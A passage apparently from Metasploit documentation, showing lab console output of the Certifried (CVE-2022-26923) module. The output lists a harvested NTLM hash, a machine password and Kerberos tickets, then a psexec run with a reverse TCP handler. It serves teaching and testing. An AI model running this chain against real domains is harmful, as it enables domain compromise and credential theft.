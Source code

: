 ```msf
[+] 192.168.100.104:445 - 192.168.100.104:88 - Received a valid TGS-Response
[*] 192.168.100.104:445 - 192.168.100.104:445 - TGS MIT Credential Cache ticket saved to /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_985570.bin
[*] 192.168.100.104:445 - Disconnecting SMB
[*] 192.168.100.104:445 - Connecting SMB with Test.mylab.local:123456
[*] 192.168.100.104:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 192.168.100.104:445 - Binding to \samr...
[+] 192.168.100.104:445 - Bound to \samr
[*] 192.168.100.104:445 - Using automatically identified domain: MYLAB
[!] 192.168.100.104:445 - Unable to delete the computer account, this will have to be done manually with an Administrator account (Could not delete the computer DESKTOP-E0SYYS6U$: Error returned while deleting user in SAM server: (0xc0000022) STATUS_ACCESS_DENIED: {Access Denied} A process has requested access to an object but has not been granted those access rights.)
[*] 192.168.100.104:445 - Disconnecting SMB
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2022_26923_certifried) > creds
Credentials
===========

host             origin           service        public             private                                                            realm        private_type  JtR Format
----             ------           -------        ------             -------                                                            -----        ------------  ----------
192.168.100.104  192.168.100.104  445/tcp (smb)  DESKTOP-E0SYYS6U$  4PuZlX57aULpEKXUZisjp227G0W0Rdvi                                   MYLAB        Password
192.168.100.104  192.168.100.104  445/tcp (smb)  dc02$              aad3b435b51404eeaad3b435b51404ee:a93d16873c9d49be9b1bce4359dcaa6d  MYLAB.LOCAL  NTLM hash     nt,lm

msf6 auxiliary(admin/dcerpc/cve_2022_26923_certifried) > loot

Loot
====

host             service  type                 name             content                   info                                                                      path
----             -------  ----                 ----             -------                   ----                                                                      ----
192.168.100.104           windows.ad.cs        certificate.pfx  application/x-pkcs12      MYLAB\ Certificate                                                        /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_windows.ad.cs_852935.pfx
192.168.100.104           mit.kerberos.ccache                   application/octet-stream  realm: MYLAB.LOCAL, client: dc02$, server: krbtgt/mylab.local             /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_654380.bin
192.168.100.104           mit.kerberos.ccache                   application/octet-stream  realm: MYLAB.LOCAL, client: administrator, server: cifs/dc02.mylab.local  /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_985570.bin
```

### Using `psexec` with the TGS impersonating the Administrator
```msf
msf6 exploit(windows/smb/psexec) > exploit rhosts=192.168.100.104 lhost=192.168.100.1 smbuser=administrator smbdomain=mylab.local Smb::Auth=kerberos Smb::Rhostname=dc02.mylab.local DomainControllerRhost=192.168.100.104


[*] Started reverse TCP handler on 192.168.100.1:4444
[*] 192.168.100.104:445 - Connecting to the server...
[*] 192.168.100.104:445 - Authenticating to 192.168.100.104:445|mylab.local as user 'administrator'...
[*] 192.168.100.104:445 - 192.168.100.104:88 - Using cached credential for cifs/DC02.mylab.local@MYLAB.LOCAL Administrator@MYLAB.LOCAL
[*] 192.168.100.104:445 - Selecting PowerShell target
```